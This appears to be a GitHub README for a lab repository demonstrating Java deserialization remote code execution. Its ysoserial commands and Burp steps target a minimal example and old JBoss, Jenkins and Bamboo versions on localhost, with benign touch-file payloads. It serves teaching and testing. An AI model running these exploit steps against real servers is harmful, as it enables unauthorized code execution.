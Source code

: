 Here there are practical examples of the - deserialization of untrusted data - vulnerability.

These pocs use the [ysoserial](https://github.com/frohoff/ysoserial/) tool to generate exploits.

# Pocs

Minimal Example
---------------------------------
- Use java 8
```
cd MinimalExample
java -jar ../ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections6 "/tmp/exploit.sh">payload.ser 
cp ./exploit.sh /tmp
chmod +x /tmp/exploit.sh
javac Employee.java
javac DeSerializingObject.java
java -classpath .:apache-collections-commons-collections-3.1.jar DeSerializingObject 
```
- You will find a file "pwned" in /tmp. This means that the attack has been completed correctly with a RCE.

JBOSS (CVE-2016-7065)
---------------------------------


- Download a vulnerable version of Jboss (in this case you can find the v5.1.0) 
- Check if you have installed the JDK 1.8
- Run jboss: ```java -jar ./JBoss/jboss-5.1.0.GA/bin/run.jar```
- Download and open Burp: setup your proxy on localhost:9090
- In your browser start proxy on localhost:9090
- Generate the payload with ysoserial: ```java -jar ysoserial.jar CommonsCollections5 "touch /tmp/JbossVulnerable.txt" > JbossPayload.ser``` or use the payload inside the folder JBoss
- Open localhost:8080/invoker/JMXInvokerServlet
- In Burp "paste from file" and choose JbossPayload.ser
- Checkout in /tmp folder the execution of "touch /tmp/JbossVulnerable.txt"



Jenkins (CVE-2015-8103)
---------------------------------

- Download a vulnerable version of Jenkins (in this case you can find the v1.649)
- Check if you have installed the JDK 1.8
```
java -jar ./jenkins-war-1.649.war
java -cp ysoserial-master-v0.0.5-gb617b7b-16.jar ysoserial.exploit.JenkinsListener http://localhost:8080 CommonsCollections5 "touch /tmp/JenkinsVulnerable.txt"
```


Bamboo (CVE-2015-6576)
---------------------------------

- Download and install openjdk 1.7 
- Download and install vulnerable version of Bamboo (v5.4.3 in this case) 
- Create folder /home/user/bamboohome/
- Add/update the property /Bamboo/atlassian-bamboo-5.4.3/atlassian-bamboo/WEB-INF/classes/bamboo-init.properties with
	bamboo.home=/home/user/bamboohome
- Get fingerprint -> localhost:8085/agentServer/GetFingerprint.action?agentType=elastic
- Generate payload with ysoserial
- Open localhost:8085/agentServer/message?fingerprint<copied fingerprint> and "copy from file" in burp
```java -jar ysoserial.jar CommonsCollections4 "touch /tmp/BambooVulnerable.txt" > BambooPayload.ser ```
  or use the payload inside the folder JBoss


# Ysoserial stacktraces

Find them in the /Ysoserial-stacktraces directory

# References and readings

- https://github.com/EdoardoVignati/ysoserial/blob/master/biblio.bib
- https://www.edoardovignati.it/how-to-install-old-versions-of-java-jdk/
- https://www.slideshare.net/codewhitesec/exploiting-deserialization-vulnerabilities-in-java-54707478
- https://askubuntu.com/questions/761127/how-do-i-install-openjdk-7-on-ubuntu-16-04-or-higher


# Defenses
- https://link.springer.com/chapter/10.1007/978-3-030-00470-5_21


